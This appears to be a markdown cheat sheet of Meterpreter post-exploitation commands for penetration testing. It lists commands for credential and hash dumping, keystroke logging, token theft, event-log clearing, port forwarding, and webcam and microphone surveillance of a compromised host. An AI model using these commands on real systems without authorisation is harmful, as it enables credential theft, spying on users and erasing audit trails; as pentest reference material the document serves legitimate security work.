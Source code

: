 # Meterpreter Shell Command Reference

A categorized list of commonly used Meterpreter shell commands for post-exploitation.

---

## 🔧 Core Session Commands

| Command | Description |
|--------|-------------|
| `help` | Show all available Meterpreter commands. |
| `exit` | Exit the Meterpreter session. |
| `background` | Move the session to the background. |
| `sessions` | List all active sessions. |
| `sessions -i <id>` | Interact with a specific session. |

---

## 💻 System Information & Control

| Command | Description |
|---------|-------------|
| `sysinfo` | Get the target system’s OS and architecture. |
| `getuid` | Display the user you're running as. |
| `getpid` | Get the Meterpreter process ID. |
| `ps` | List all running processes. |
| `kill <pid>` | Kill a process by PID. |
| `migrate <pid>` | Migrate Meterpreter to another process. |

---

## 📂 File System Commands

| Command | Description |
|---------|-------------|
| `ls` | List files in the current directory. |
| `cd <path>` | Change directory. |
| `pwd` | Print the current working directory. |
| `download <file>` | Download a file from the target. |
| `upload <file>` | Upload a file to the target. |
| `mkdir <dir>` | Create a directory. |
| `rm <file>` | Delete a file. |
| `edit <file>` | Open and edit a file with a built-in editor. |

---

## 🔍 File Search Command

| Command | Description |
|---------|-------------|
| `search -f <pattern>` | Search for files matching a pattern. |
| `search -r` | Recursively search directories. |
| `search -d <dir>` | Specify the start directory. |
| `search -h` | Show help for `search`. |

### Examples:
- `search -f *.docx` — Find all `.docx` files.
- `search -f password.txt -r` — Recursive search for `password.txt`.
- `search -d C:\Users -f *.log -r` — Search `.log` files from a directory.

---

## 🖱️ Process & Privilege Commands

| Command | Description |
|---------|-------------|
| `getprivs` | List available privileges. |
| `steal_token` | Impersonate a security token. |
| `rev2self` | Revert to the original user. |
| `run post/windows/escalate/...` | Run privilege escalation scripts. |

---

## 🧑‍💼 User & Credential Dumping

| Command | Description |
|---------|-------------|
| `hashdump` | Dump local user hashes (SAM database). |
| `keyscan_start` | Start keystroke logging. |
| `keyscan_dump` | Dump captured keystrokes. |
| `keyscan_stop` | Stop the keylogger. |
| `run post/windows/gather/credentials/...` | Various credential gathering modules. |

---

## 📡 Networking Commands

| Command | Description |
|---------|-------------|
| `ipconfig` | View network configuration. |
| `route` | Display or modify the routing table. |
| `portfwd add -l <lport> -p <rport> -r <rhost>` | Set up port forwarding. |
| `netstat` | Show active connections. |
| `arp` | Show ARP table. |

---

## 🧠 System Interaction

| Command | Description |
|---------|-------------|
| `shell` | Open a standard command shell on the target. |
| `execute -f <path>` | Run a command or executable. |
| `clearev` | Clear event logs. |

---

## 🎥 Surveillance & Spying

| Command | Description |
|---------|-------------|
| `screenshot` | Capture a screenshot. |
| `record_mic` | Record audio from the mic. |
| `webcam_snap` | Take a webcam snapshot. |
| `webcam_stream` | Stream webcam feed. |
| `enum_desktop_users` | Enumerate desktop sessions. |

---

## 🧩 Extension Commands

To load additional capabilities:
```bash
load <extension_name>
```

### Common Extensions:
| Extension | Purpose |
|----------|---------|
| `stdapi` | File system, networking, etc. (default) |
| `priv` | Privilege escalation tools |
| `espia` | Spying (mic, webcam, screenshot) |
| `incognito` | Token manipulation |
| `kiwi` | Mimikatz-based credential dumping |

